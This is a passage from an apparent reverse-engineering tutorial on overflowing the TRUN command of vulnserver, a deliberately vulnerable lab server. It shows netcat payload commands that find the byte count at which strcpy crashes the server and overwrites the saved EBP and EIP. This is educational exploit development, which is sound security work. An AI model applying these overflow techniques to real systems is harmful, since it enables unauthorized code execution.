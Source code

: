 ![strcpy on TRUN](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331063/blog/reversing-vulnserver/strcpy1_eejc11.webp)

</div>

All that means is, to overflow the `TRUN` parameter, we must:

1. Inject a dot somewhere on the payload to trigger the `strcpy()`
    call.

2. As `*dest` is located at `ebp-0x7d8`, we must inject `2008 -
    len('TRUN ') = 2003` or more bytes to start overflowing the stack.
    Let’s check it:

**Payload of 2000 bytes without a dot.**

``` console
$ echo -n "$(python3 -c "print('TRUN ' + 'A'*2000)")" | nc 192.168.0.20 9999
Welcome to Vulnerable Server! Enter HELP for help.
TRUN COMPLETE
```

**Payload of 2010 bytes without a dot.**

``` console
$ echo -n "$(python3 -c "print('TRUN ' + 'A'*2010)")" | nc 192.168.0.20 9999
Welcome to Vulnerable Server! Enter HELP for help.
TRUN COMPLETE
```

**Payload of 2001 bytes plus a dot.**

``` console
$ echo -n "$(python3 -c "print('TRUN .' + 'A'*2001)")" | nc 192.168.0.20 9999
Welcome to Vulnerable Server! Enter HELP for help.
TRUN COMPLETE
```

**Payload of 2002 bytes plus a dot.**

``` console
$ echo -n "$(python3 -c "print('TRUN .' + 'A'*2002)")" | nc 192.168.0.20 9999
Welcome to Vulnerable Server! Enter HELP for help.
```

As you can notice, with the last command with a payload of 2002 `A`
chars plus a dot, `vulnserver` stopped working and we got an `Access
Violation` exception on our debugger:

<div class="imgblock">

![Access violation](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331064/blog/reversing-vulnserver/accessviolation1_dy6guo.webp)

</div>

That means that we started to overwrite the `saved EBP` which is next to
the `saved EIP` on the `Function3` stack frame:

**Reversed Function3 stack frame.**

``` text
._________________________________.__________________.__________________.
             *dest                      Saved EBP         Saved EIP
      epb-0x7d8 (2008 bytes)         ebp+0 (4 bytes)   ebp+0x4 (4 bytes)
```
